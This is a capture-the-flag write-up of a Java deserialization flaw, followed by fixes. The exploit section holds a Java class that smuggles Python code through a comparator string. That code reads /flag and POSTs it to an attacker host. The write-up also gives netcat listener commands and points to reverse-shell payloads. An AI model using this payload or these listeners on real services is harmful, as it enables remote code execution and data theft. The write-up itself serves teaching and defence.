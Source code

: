 # Deserialization 101

## Vulnerability
The service deserialises User Input

## Exploitation
Reusing the code template available in the slides, we can write the following exploit, replacing <HOST:PORT> by a server listening at the given port (e.g. open a https tunnel `ngrok http <LOCAL_PORT>` and then listen `nc -lvnp <LOCAL_PORT>`).
The Python payload could be replaced by a Reverse Shell payload to get a shell on the server. Some examples can be found on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python).

```java
package deserialization101;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.util.Base64;
import java.util.concurrent.ConcurrentSkipListSet;

public class Exploit {

    public static void main(String[] args) throws Exception {
        System.out.println(createMaliciousObject());
    }

    public static String createMaliciousObject() throws Exception {
        CustomComparator customComparator = new CustomComparator(");import http.client;conn = http.client.HTTPSConnection(\"<HOST:PORT>\");conn.request(\"POST\",\"/\", '{}'.format(open('/flag').read().strip()), {'Content-Type': 'application/json'});#");
        var giveMeAnRCE = new ConcurrentSkipListSet<>(customComparator);
        giveMeAnRCE.add(1);
        giveMeAnRCE.add(2);

        var baos = new ByteArrayOutputStream();
        var oos = new ObjectOutputStream(baos);

        oos.writeObject(giveMeAnRCE);
        var bytes = baos.toByteArray();

        oos.close();
        baos.close();

        return Base64.getEncoder().encodeToString(bytes);
    }
}
```

The constructor of `CustomComparator` only allows Strings containing a single character.
When deserializing, the object was already "constructed", the JVM will use the method `readObject` instead of going through the constructor. So to build our payload, we can update the constructor to allow more than just a single character.

We can then open our listener on our server: `nc -lvnp <PORT>` and request the service with our malicious payload:
```bash
curl --request POST \
  --url http://localhost:80/game1 \
  --header 'Content-Type: text/plain' \
  --data '<Payload>'
```

## Fix
Multiple fix could avoid this problem:
* We should expect an Integer instead of a serialized Integer.
* We could create our own ObjectInputStream to limit the kind of classes that can be deserialized, overriding the method resolveClass.
* We could have overriden the method `readObject` in `CustomComparator` to check the operator has only a single character (same condition as in the constructor).

For more details, you can read this [blog](https://www.redhat.com/en/blog/jdk-approach-address-deserialization-vulnerability) article from Red Hat.
